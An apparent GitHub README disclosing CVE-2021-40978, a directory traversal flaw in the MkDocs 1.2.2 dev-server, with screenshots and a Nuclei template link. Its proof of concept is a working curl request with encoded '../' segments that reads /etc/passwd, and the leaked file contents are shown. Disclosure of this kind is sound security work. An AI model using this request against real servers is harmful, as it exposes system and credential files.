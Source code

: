 # CVE-2021-40978
mkdocs built-in dev-server directory traversal exploitation

Mkdocs 1.2.2 allows directory traversal through the built-in dev-server which responds on port 8000.
There is below some examples of successfully exploited paths:

## Impact
Using this tecnique it is possible to fetch files outside of the root directory, allowing anyone to read and download arbitrary files.

![image](https://user-images.githubusercontent.com/15092748/135782666-a909e804-2efd-4735-81a9-30c1561c9742.png)

#### Request:
![image](https://user-images.githubusercontent.com/15092748/135782696-1383f999-4943-4b52-a57a-95a60119ae23.png)

#### Response:
![image](https://user-images.githubusercontent.com/15092748/135782767-bc531a35-cb85-45eb-9323-b397eae422e1.png)

## Proof Of Concept

### [Nuclei](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-40978.yaml) Template: https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-40978.yaml

```
curl http://0.0.0.0:8000/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd -i
HTTP/1.0 200 OK
Date: Mon, 04 Oct 2021 02:13:38 GMT
Server: WSGIServer/0.2 CPython/3.7.3
Content-Type: application/octet-stream
Content-Length: 2187

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync...
```

![Screenshot_20211003_231812](https://user-images.githubusercontent.com/62824857/135784709-25add5c6-07e3-4ecb-90ce-f8c205ffaca4.png)
